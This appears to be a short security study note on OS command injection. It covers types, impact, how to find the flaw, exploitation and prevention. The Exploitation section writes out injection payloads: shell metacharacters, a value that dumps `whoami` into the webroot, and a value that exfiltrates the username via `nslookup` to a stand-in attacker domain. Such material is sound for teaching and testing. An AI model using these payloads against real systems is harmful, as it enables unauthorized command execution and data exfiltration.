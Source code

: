 # Command Injection

Command Injection is a vulnerability in which an attacker manages to execute OS commands on the host though the application.

OWASP Top 10 - A3 - Injection.

### Types of Command Injection

- In-Band (result of the command returned to attacker).
- Blind (output not returned).

### Impact

- Confidentiality: Can be used to view sensitive information.
- Integrity: Can be used to alter content in the application.
- Availability: Can be used to delete content in the application.

Remote code execution.

## Locating Command Injection

### Black Box

- Map the application and note instances where the application appears to be interacting with the underlying operating system.
- Fuzz the application with command injection payloads: `&`, `&&`, `|`, `||`, `;`, etc.
- For in-band command injections, analyze the response to determine if it's vulnerable.
- For blind command injection, try to trigger a time delay using the `ping` or `sleep` command. Exfiltrate data by outputing the result of the command in the webroot directory and retrieving the file in the browser or by opening an out-of-band channel to a server you control.

### White box

- Map all input vectors and determine if any are added as parameters to functions that execute system commands.
- Once a vulnerability is identified, test it to confirm it is actually exploitable.

## Exploitation

- In-Band: use shell metacharacters to concatenate another command to the command being run:

```bash
& && | || ; \n ` $()
```

- Blind: Trigger a time delay using either the `sleep` or `ping` command. Output the result of a command to the webroot e.g. `127.0.0.1 & whoami > /var/www/static/whoami.txt &`. Open an out-of-band channel back to a server you control: `` 127.0.0.1 & nslookup `whoami`.kub34d1us.web-attacker.com & ``.

# Prevention

- Avoid calling OS commands directly or use built-in library functions that only perform the specific task you need (e.g. mkdir() instead of system("mkdir /dir_name").
- Validate against a whitelist of permitted values.
